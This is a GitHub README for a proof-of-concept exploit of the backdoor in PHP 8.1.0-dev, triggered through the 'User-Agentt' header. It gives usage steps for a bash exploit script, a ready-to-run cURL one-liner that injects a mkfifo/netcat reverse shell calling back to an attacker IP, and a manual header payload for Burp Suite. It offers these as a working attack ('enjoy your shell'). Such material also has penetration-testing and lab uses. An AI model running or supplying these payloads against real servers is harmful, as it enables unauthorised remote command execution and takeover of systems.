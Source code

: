 # PHP-8.1.0-dev - Remote Code Execution 

## 1.0 Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## 2.0 Usage - with a bash script

 Run the script, enter the host IP, your own IP + port (for the reverse shell) when being asked for and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`

## 2.1 Quick RCE - with cURL

The quickest way to get a reverse shell, is to use a cURL request. replace `YOUR_IP` with your attacker IP address and start a netcat listener at port `4444`.

`nc -nvlp 4444`

`curl http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f');"`

## 2.2 Manual exploitation - with Burp

You can also exploit this manually by adding the

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite and sending a new HTTP request to the host. Start a netcat listener before you send out the request.

